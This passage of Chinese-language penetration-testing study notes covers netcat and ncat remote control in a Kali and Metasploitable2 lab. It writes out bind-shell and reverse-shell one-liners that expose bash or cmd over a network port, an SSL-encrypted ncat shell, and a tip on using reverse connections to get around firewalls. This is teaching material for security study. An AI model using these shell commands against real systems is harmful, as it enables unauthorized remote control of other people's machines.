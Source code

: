> 远程电子取证，可以将目标服务器硬盘远程复制

## 7. 远程控制
> nc 建立连接后，被控的可以是客户端，也可以是服务器端

- 正向
  - A(被控端)：nc -lp 333 -c bash
    - 将 bash 传到 333 端口
  - B(控制端)：nc -nv 1.1.1.1 333
  ```shell
  (metasploitable2) $ sudo nc -lp 333 -c bash

  (kali) $ nc -nv 1.1.1.1 333   
  (UNKNOWN) [10.0.0.50] 333 (?) open
  ls
  vulnerable
  pwd
  /home/msfadmin
  ```
- 反向
  - A(控制端)：nc -lp 333
  - B(被控端)：nc -nv 1.1.1.1 333 -c bash
> - windows 将 bash 改成 cmd
> - 可能由于防火墙等等原因，控制端(攻击方)连不上被控端(目标)，此时可以采用反向，让目标机主动来连攻击方。
> - 外向内限制 or 内向外限制
 
## 8. ncat
> - netcat 缺乏加密（明文传输）
> - netcat 缺乏身份验证能力

ncat 可以弥补 netcat 缺乏加密、身份验证的能力

ncat 包含于 nmap 工具包中

- A：ncat -c bash -allow 1.1.1.1 -vnl 333 -ssl
  - -allow 允许连接的 ip 地址
  - -ssl 加密方式 （整个管道都会加密）
- B：ncat -nv 1.1.1.1 333 --ssl
> 连接时会先交换 ssl fingerprint m

————————————————
- [用好你的瑞士军刀/netcat](https://zhuanlan.zhihu.com/p/83959309)
- [netcat 命令详解](https://segmentfault.com/a/1190000016626298)